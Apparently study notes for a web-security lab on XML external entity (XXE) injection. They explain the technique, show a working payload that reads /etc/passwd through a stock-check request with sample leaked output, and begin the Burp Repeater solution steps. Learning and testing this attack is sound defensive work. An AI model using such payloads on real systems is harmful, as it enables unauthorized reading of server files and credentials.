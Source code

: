 ## Introduction
- To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:
	- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
	- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
**Example** - 
suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value.

This causes the application's response to include the contents of the file:
```python
Invalid product ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
...
```

**Note** - 
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

## Steps to solve lab
### Desc - Exploiting XXE using external entities to retrieve files
**Our end goal** - To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

1. From the question description, we already know the which parameter is vulnerable. So, send the `POST /product/stock` to Burp **Repeater**.
![[XXE2.png]]

2. Now, introduce a  `DOCTYPE` element that defines an external entity containing the path to the file and Edit a data value in the XML that is returned in the application's response.
![[XXE3.png]]
